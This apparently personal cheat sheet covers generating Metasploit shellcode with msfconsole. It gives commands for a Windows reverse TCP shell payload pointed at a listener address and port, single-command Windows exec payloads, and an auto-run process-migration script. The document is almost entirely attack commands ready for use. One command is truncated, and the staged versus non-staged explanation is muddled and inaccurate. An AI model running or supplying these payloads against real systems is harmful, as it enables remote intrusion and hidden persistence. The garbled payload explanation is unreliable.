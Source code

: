 # msfconsole

## Msfconsole Have a the Keyword "generate" that Generates Shell Code. So, First Select a Payload

```bash
use payload/windows/shell_reverse_tcp
```

### Now, Set Variables as Usual

```bash
set LPORT 5555
set LHOST 192.168.0.101
```

### Now Generate Shell Code Using the Command "generate"

```bash
generate
#to see the options use generate -h
```

## If Meterpreter Goes In and Out, Change Payload

```bash
set payload linux/x86/
```

* switch to staged or non staged

## Staged Payloads

* they will have /meterpreter/ in front of payload

## Non-Staged Payloads

* they will not have /meterpreter/

## Single Commands in Windows

### If there is Limited Space and Only a Single Command is Needed Use

```bash
use payload/windows/exec
```

```bash
use payload/cmd/windows/generic
```

## Merge Msfconsole Payload to Another Process Immediately After Execution

```bash
set AutoRunScript post/windows/manage/migrate
```

## Resources

* [https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet](https://burmat.gitbook.io/security/hacking/msfvenom-cheetsheet)

